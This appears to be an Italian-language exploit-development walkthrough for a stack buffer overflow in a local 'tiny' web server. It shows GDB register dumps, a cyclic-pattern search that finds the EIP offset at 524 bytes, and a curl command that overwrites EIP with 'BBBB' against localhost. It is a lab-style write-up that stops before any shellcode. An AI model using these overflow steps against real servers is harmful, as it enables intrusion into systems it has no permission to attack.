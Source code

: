 ```
ECX: 0x1
EDX: 0xf7fc3890 --> 0x0
ESI: 0xf7fc2000 --> 0x1d4d6c
EDI: 0x0
EBP: 0x72413372 ('r3Ar')
ESP: 0xffffd600 --> 0x7241 ('Ar')
EIP: 0x35724134 ('4Ar5')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x35724134
[------------------------------------stack-------------------------------------]
0000| 0xffffd600 --> 0x7241 ('Ar')
0004| 0xffffd604 --> 0xffffd750 --> 0xfc820002
0008| 0xffffd608 --> 0xffffd63c --> 0x10
0012| 0xffffd60c --> 0xf7ffdc44 --> 0xf7ffdc30 --> 0xf7fd4000 (jg     0xf7fd4047)
0016| 0xffffd610 --> 0x380
0020| 0xffffd614 --> 0x8048581 ("__libc_start_main")
0024| 0xffffd618 --> 0x380
0028| 0xffffd61c --> 0x380
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x35724134 in ?? ()
```
Identificato il Segmentation Fault avvenuto tramite l'iniziezione del payload generato dal tool `Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag...` si può effettuare il calcolo dello spazio disponibile, cioè la distanza tra buffer vulnerabile nel quale è effettuato l'overflow, e il registro `Instruction Pointer EIP`.

Quindi dato l'errore:
```
0x080498d4 in log_access (status=0x194, c_addr=0x72413772, req=0xffffd3f0) at tiny.c:303
303         printf("%s:%d %d - %s\n", inet_ntoa(c_addr->sin_addr),
```
Si noti come il valore del registro `EIP` coincide con `EIP: 0x35724134 ('4Ar5')` cioè i `4bytes` identificati come `4Ar5` che corrispondono ai ultimi 4 bytes della seguente dimensione di bytes iniettati:
```
$ python ../RHPCOpattern/RHPCOpattern.py search 0x35724134
Pattern 0x35724134 found at position 524
```
Pertanto si hanno a disposizione `524 bytes` da utilizzare come payload d'attacco.

Si può approfondire l'analisi effettuando il fuzzing usando i caratteri `A (x41)` e `B (x42)` lo scopo è quello di capire quanti byte di `Offset` servono per sovrascrivere i `4 byte` del registro `EIP`.
Eseguendo ad esempio:
```
curl http://localhost:9999/`python -c 'print "A"*524+"BBBB"'`
```
Otteniamo esatamente quanto atteso, cioè i 4 byte del carattere `B` sovrascrivono esattamente i 4byte del registro `EIP`.
```
[----------------------------------registers-----------------------------------]
EAX: 0x228
EBX: 0x0
ECX: 0x1
EDX: 0xf7fc3890 --> 0x0
ESI: 0xf7fc2000 --> 0x1d4d6c
EDI: 0x0
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd600 --> 0x0
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
```